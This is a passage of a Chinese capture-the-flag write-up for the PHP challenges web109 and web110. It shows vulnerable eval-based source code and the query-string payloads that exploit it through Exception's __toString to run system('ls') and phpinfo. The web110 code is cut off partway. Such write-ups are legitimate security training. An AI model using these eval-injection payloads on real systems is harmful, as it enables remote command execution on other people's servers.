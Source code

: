 ### web109

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
?>
```

直接输出一个类的时候，需要类里有魔术方法 _toString

```
?v1=exception&v2=phpinfo
?v1=exception&v2=system('ls')
?v1=exception&v2=system('echo phpinfo')
```

<img src="图片\Snipaste_2023-01-11_10-19-24.png" alt="Snipaste_2023-01-11_10-19-24" style="zoom:67%;" />

### web110

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
```